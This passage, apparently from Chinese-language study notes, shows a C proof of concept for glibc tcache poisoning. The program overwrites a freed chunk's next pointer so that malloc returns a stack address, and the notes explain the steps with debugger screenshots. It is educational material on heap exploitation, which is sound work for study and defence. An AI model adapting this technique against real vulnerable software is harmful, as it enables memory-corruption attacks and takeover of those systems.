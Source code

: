    ```c
   	printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
   		   "We have to create and free one more chunk for padding before fd pointer hijacking.\n\n");
   
   	size_t stack_var;
   	printf("The address we want malloc() to return is %p.\n", (char *)&stack_var);
   
   	printf("Allocating 2 buffers.\n");
   	intptr_t *a = malloc(128);
   	printf("malloc(128): %p\n", a);
   	intptr_t *b = malloc(128);
   	printf("malloc(128): %p\n", b);
   
   	printf("Freeing the buffers...\n");
   	free(a);
   	free(b);
   
   	printf("Now the tcache list has [ %p -> %p ].\n", b, a);
   	printf("We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
   		   "to point to the location to control (%p).\n", sizeof(intptr_t), b, &stack_var);
   	b[0] = (intptr_t)&stack_var;
   	printf("Now the tcache list has [ %p -> %p ].\n", b, &stack_var);
   
   	printf("1st malloc(128): %p\n", malloc(128));
   	printf("Now the tcache list has [ %p ].\n", &stack_var);
   
   	intptr_t *c = malloc(128);
   	printf("2nd malloc(128): %p\n", c);
   	printf("We got the control\n");
   
   	assert((long)&stack_var == (long)c);
   	return 0;
   }
   ```

   运行结果是：

   ![image-20240719153441900](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407191534262.png)

   分析一下，程序先申请了一个**大小是 128 的 chunk**，然后 free。128 在 tcache 的范围内，因此 free 之后该 **chunk 被放到了 tcache 中**，调试如下：

   ![image-20240719154045908](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407191540232.png)

   可以看到，此时第 8 条 tcache 链上已经有了两个 chunk，从 `tcache_perthread_struct` 结构体中也能得到同样的结论。

   然后修改 tcache 的 next：

   ![image-20240719154416814](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407191544247.png)

   此时，第 8 条 tcache 链的 **next 已经被改成栈上的地址**了。接下来类似 fastbin attack，只需进行**两次 `malloc(128)`** 即可控制栈上的空间：
